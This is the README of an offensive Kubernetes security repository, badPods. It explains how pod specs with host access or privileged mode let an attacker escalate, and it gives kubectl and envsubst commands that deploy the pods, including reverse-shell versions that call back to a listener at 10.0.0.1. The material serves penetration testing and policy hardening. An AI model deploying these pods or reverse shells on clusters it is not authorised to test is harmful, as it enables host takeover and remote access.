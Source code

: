 # badPods

A collection of manifests that create pods with different elevated privileges. Quickly demonstrate the impact of allowing specific security sensitive pod specifications. 

## Background
Occasionally pods need access to privileged resources on the host, so the Kubernetes pod spec allows for it. However, this level of access should be granted with extreme caution. Administrators have ways to prevent the creation of pods with these security sensitive pod specifications using Pod Security Policies or with admission controllers like OPA Gatekeeper. However, the real-world security implication of allowing a certain attributes is not always understood, and quite often, pod creation polices are not as locked down as they should be. 

## Purpose
What if you can create a pod with just `hostNetwork`, just `hostPID`, just `hostIPC`, just `hostPath`, or just `privileged`? What can you do in each case? This repository aims to help you answer those questions. 

## Prerequisites
In order to be successful in this attack path, you'll need the following: 

1. Access to a cluster 
1. Permission to create pods in at least one namespace. If you can exec into them that makes life easier.  
1. A pod security policy (or other pod admission controller's logic) that allows pods to be created with one or more security sensitive attributes, or no pod security policy / pod admission controller at all

## The badPods line-up
In most situations, if you have permission to create pods, you also have permission to `exec` into them. However, that is not always the case so a version of each pod is included that will call back to your listener as soon as the pod is created. 

Notes | readme | pod | revshell
-- | -- | -- | --
Everything allowed | [readme](yaml/everything-allowed/) | [yaml](yaml/everything-allowed/everything-allowed.yaml) | [yaml](yaml/everything-allowed/everything-allowed-revshell.yaml)
Privileged and hostPid | [readme](yaml/priv-and-hostpid/) | [yaml](yaml/priv-and-hostpid/pod-priv-and-hostpid.yaml) | [yaml](yaml/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml)
Privileged only | [readme](yaml/priv/) | [yaml](yaml/priv/pod-priv.yaml) | [yaml](yaml/priv/pod-priv-revshell.yaml)
hostPath only | [readme](yaml/hostpath/) | [yaml](yaml/hostpath/hostpath-exec.yaml) | [yaml](yaml/hostpath/hostpath-revshell.yaml)  
hostPid only | [readme](yaml/hostpid/) | [yaml](yaml/hostpid/hostpid.yaml) | [yaml](yaml/hostpid/hostpid-revshell.yaml)  
hostNetwork only | [readme](yaml/hostnetwork/) | [yaml](yaml/hostnetwork/hostnetwork-exec.yaml) | [yaml](yaml/hostnetwork/hostnetwork-revshell.yaml)
hostIPC only | [readme](yaml/hostipc/) | [yaml](yaml/hostipc/hostipc-exec.yaml) | [yaml](yaml/hostipc/hostipc-revshell.yaml)
Nothing allowed | [readme](yaml/nothing-allowed/) | [yaml](yaml/nothing-allowed/nothing-allowed.yaml) | [yaml](yaml/nothing-allowed/nothing-allowed-revshell.yaml)


# Impact - What's the worst that can happen?
Check out blog post here

# Usage
 Each resource in the `yamls` directory targets a specific attribute or a combination of attributes that expose the cluster to risk when allowed. Each subdirectory has it's own usage information which includes tailored post-exploitation ideas and steps.  

### Clone the repo
```bash
git clone https://github.com/BishopFox/badPods
cd badPods
```

### Create the pods (or at least try to create them)

```bash
kubectl apply -f ./yaml/everything-allowed/everything-allowed.yaml
kubectl apply -f ./yaml/priv-and-hostpid/pod-priv-and-hostpid.yaml 
kubectl apply -f ./yaml/priv/pod-priv.yaml
kubectl apply -f ./yaml/hostpath/hostpath-exec.yaml
kubectl apply -f ./yaml/hostpid/hostpid.yaml 
kubectl apply -f ./yaml/hostnetwork/hostnetwork-exec.yaml
kubectl apply -f ./yaml/hostipc/hostipc-exec.yaml
kubectl apply -f ./yaml/nothing-allowed/nothing-allowed.yaml

```

### Reverse shell version of each pod
If you can create pods but not exec  into them, you can use the reverse shell version of each pod. To avoid having to edit each pod with your host and port, you can environment variables and the `envsubst` command. Remember to spin up all of your listeners first!

```bash
HOST="10.0.0.1" PORT="3111" envsubst < ./yaml/everything-allowed/everything-allowed-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3112" envsubst < ./yaml/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3113" envsubst < ./yaml/priv/pod-priv-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3114" envsubst < ./yaml/hostpath/hostpath-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3115" envsubst < ./yaml/hostpid/hostpid-revshell.yaml  | kubectl apply -f -
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/hostnetwork/hostnetwork-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3117" envsubst < ./yaml/hostipc/hostipc-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3118" envsubst < ./yaml/nothing-allowed/nothing-allowed-revshell.yaml | kubectl apply -f -
```

# Acknowledgements 
Thank you [Rory McCune](https://twitter.com/raesene), [Duffie Cooley](https://twitter.com/mauilion), [Brad Geesaman](https://twitter.com/bradgeesaman), [Tabitha Sable](https://twitter.com/tabbysable), [Ian Coldwater](https://twitter.com/IanColdwater), and [Mark Manning](https://twitter.com/antitree) for publicly sharing so much knowledge about Kubernetes offensive security. 
